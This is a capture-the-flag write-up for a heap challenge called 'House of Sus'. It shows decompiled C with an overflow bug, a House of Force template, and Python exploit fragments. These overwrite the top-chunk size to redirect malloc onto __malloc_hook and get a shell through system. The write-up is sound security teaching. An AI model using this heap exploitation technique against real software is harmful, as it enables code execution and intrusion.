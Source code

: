 # House of Sus
This is a heap-based challenge which was kinda funny to solve, so let's dive in by looking at the binary

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/c63ff372-8b5a-4126-80ff-4020f2be993f)

Here is what we get when we run it, and it seems like amongus in a different interface, btw we have a leak of the heap base and three operations that we can use, they are not very clear, so we will use ghidra to decompile it

Option 3
```c
void call_emergency_meeting(void)   {
  long in_FS_OFFSET;
  char tmp;
  ulong resp_size;
  char *response;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nWhy\'d you call an emergency meeting?! I was doing my tasks >:(");
  printf("\nUh oh, you\'ve been called out, how many characters will your response be? ");
  __isoc99_scanf("%lu%c",&resp_size,&tmp);
  printf("Enter your response: ");
  response = (char *)malloc(resp_size);
  // No malloc return check
  fgets(response,0x40,stdin);
  // Always 0x40 bytes to write, so chunk of 0x20 == overflow
  printf("\nYou responded: %s\n",response);
  vote();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
```
Thats the only option that we need to exploit the entire code, or a function which calls malloc of a custom size without checking any return error of the function, even more in every case this function will let us to write 0x40 bytes to the chunk no matter the size allocated. This means that we can allocate a chunk smaller in order to have an overflow.
## House of Force
To sum up we have a `heap-base` leak, an overflow, and a vulnerable libc or the `2.27`. These are all the assumptions that we need to exploit the House of Force, which let us to allocate an arbitrary address by changing the wilderness size. Below there is template file to understand it.

```c
// Source https://heap-exploitation.dhavalkapil.com/attacks/house_of_force
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

This simply proves that by overwriting the `wilderness` or the `top-chunk` size to `0xFFFFFFFFFFFFFFFF` as well as `-1` we are able to allocate an arbitrary chunk.
The idea is that when we make a new malloc call the `top-chunk` will move lower and lower in order to reserve us the wanted memory, usually the `wilderness` reaches zero, the next malloc will proc the `brk` call to get even more memory, but if we overwrite it to `0xFFFFFFFFFFFFFFFF` we are able to move through all the memory untill the desired address.
## Exploitation
So that's the plan now we need a target to overwrite, and is pretty obvious or the `__malloc_hook` which if not equal to zero, calls the specified function. Like this if we overwrite it with `system` or `one-gadget` it will call them the next time we will make a `malloc` call.

The last thing we need is a libc leak. To get it is just a piece of cake, because there is a given function which leaks the `seed`.

Option 2
```c
void report(void){
  if (tasks_completed == '\0') {
    puts("\nDo your tasks!");
  }
  else {
    printf("\nIf you want to game the system before you vote... here\'s the seed: %lu\n",seed);
    vote();
  }
  return;
}
```

To start out we will create two functions to fetch the leaks and calculate each base.

```python
def get_leak():
    p.recvuntil(b"game: ", timeout=0.5)
    leak = int(p.recvline().strip(), 16) + 0x1050

    return leak

def rand_leak():
    p.sendlineafter(b"choice: ", b"2", timeout=0.5)
    p.recvuntil(b"seed: ", timeout=0.5)
    leak = int(p.recvline().strip(), 10)
    p.sendlineafter(b"choice: ", b"3", timeout=0.5)
    
    return leak
```

Then we need to overwrite the topchunk size with a malloc call, from the third option

```python
# Used to pad because of a huge chunk betweend us and the wilderness
call_emergency(0xa, b"aaaa", 3)
payload = flat(
    b"A" * 0x10,
    p64(NULL),
    p64(0xffffffffffffffff),
)
# Actual chunk to overwrite the size
call_emergency(0xa, payload, 3)
```

Here is the heap layout

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/22d8b35f-ed30-4014-84db-0682072557c6)

Now we just need the perfect distance between us and the `__malloc_hook`, which is just

```python
result_address = __malloc_hook - chunk_location - 0x20 # -0x20 for the metadata
```

From GDB, the size requested for the malloc call

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/2fba2e9a-2fd9-4c32-bc8b-274d12cedd1c)

Here is the chunk size reached 

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/c7c021ba-c0a2-4f7e-92ec-cebd8c19f9ac)

Thats the `__memalign_hook` which is just before the `__malloc_hook`, so the next malloc call will return it to us.

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/cf9fbc16-7194-4fa2-9dee-b7de1acc6b07)

Here it is! We can now write over it `one-gadget` or just `system` like i did

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/1834daa5-d0b8-4153-a413-072dc64e01d7)

With the last allocation call we will pass the address of `/bin/sh` to it and get a shell

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/04f7ef20-7419-4de0-a4f1-bfb5ecccf07e)

And... Here is our shell!

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/eee1427b-e319-4af2-bf7e-c5cb90dba926)

Thanks for your attention
0xCY@
